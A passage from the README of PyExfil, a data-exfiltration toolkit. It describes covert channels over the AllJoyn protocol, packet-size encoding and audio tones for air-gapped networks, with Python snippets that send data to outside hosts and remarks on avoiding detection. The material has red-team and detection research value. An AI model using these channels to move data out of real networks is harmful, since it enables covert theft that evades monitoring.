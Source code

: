 This protocol is very prevalent with many smart homes/equipment providers and would be expected to have presence on the LAN. Currently we are not aware of a product/software that analyzes it for security anomalies.

```python
import uuid

from pyexfil.Comm.AllJoyn import Send, ALLJOYN_PORT

Send(
		dst_ip = "8.8.8.8",
		from_ip = "1.1.1.1",
		data = 'Now online',
		src_port=ALLJOYN_PORT,
		session_id=uuid.uuid4().hex
)
```

#### Packet Size
This one can almost only be used for communication rather than data exfiltration. The idea is to take data, convert it into bytes and then encode these bytes as length in a packet. For example, the string `EXFL` will be converted into `["EX", "FL"]` which will be `[[69, 88],[70, 76]]` which will end up being two packets:

```python
69*"0" + "\x00" + 88 * "1" + "\x00"
```

```python
70*"0" + "\x00" + 76 * "1" + "\x00"
```

Which is why, as said before, we highly recommend using this method over HTTPS (as implemented here) and using it to relay key codes (i.e., `EX` will mean `exfiltrate` in both sides).

```python
#!/usr/bin/env python3

from pyexfil.Comm.packet_size import Send

# Send with encryption & compression (WHY?!)
a = Send(dest_ip="google.com", key=None, port=443, compress=False)
check, output = a.send_string("hello") # this will also send the packets
print(a.Decode(output))

# Send without encryption or compression
a = Send(dest_ip="google.com", key="HeyDonn", port=443, compress=True)
check, output = a.send_string("hello")
print(a.Decode(output))
```

### Physical

#### Audio
The Audio module will compile a file into a WAV function. When it's being played a listener can collect the tones and should be able (in a clean environment!) to reconstruct the file. This should be relatively useful for AirGapped networks which are extremely hardened.
